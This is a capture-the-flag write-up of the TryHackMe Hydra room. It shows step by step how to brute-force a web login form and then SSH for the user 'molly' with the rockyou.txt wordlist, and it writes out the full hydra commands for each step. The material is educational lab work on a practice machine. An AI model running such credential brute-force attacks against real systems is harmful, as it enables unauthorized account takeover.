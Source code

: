 # [Hydra][1]
Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

If you want to know more about Hydra, you can check [Hydra - Network Logon Cracker][2] Blog.

## TASK 2

### Web Flag

Go to the website and type any password to get the incorrect message.

![Incorrect Message](images/incorret_message.png)
> Copy the message, we will use this in `hydra` for bruteforcing.

Now that we have
- the incorrect message: `Your username or password is incorrect.`
- username: `molly`
- wordlist for password: `rockyou.txt`
- Location for login: `/login`

We can use the command mentioned under `Post Web Form`

```
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

**Command for this case will be:**

```
hydra -l "molly" -P "rockyou.txt" MACHINE_IP http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect." -V
```

![Web Login Password](images/password.png)
> Now that we have username and password, we can login and get the first flag.

![Flag 1](images/web_flag.png)

### SSH Flag

We can use the command mentioned under `SSH`

```
﻿hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh
```

**Command for this case will be:**

```
﻿hydra -l "molly" -P "rockyou.txt" MACHINE_IP -t 4 ssh
```

![SSH Password](images/ssh_pass.png)
> Now that we have the password we can try logging in.

SSH login command: `ssh molly@<IP>`

![Login](images/ssh_login.png)
> Vola we got the access.

Let's get the flag.

![SSH Flag](images/ssh_flag.png)


[1]: https://tryhackme.com/room/hydra
[2]: https://blog.hackhunt.in/2022/03/hydra-network-logon-cracker.html
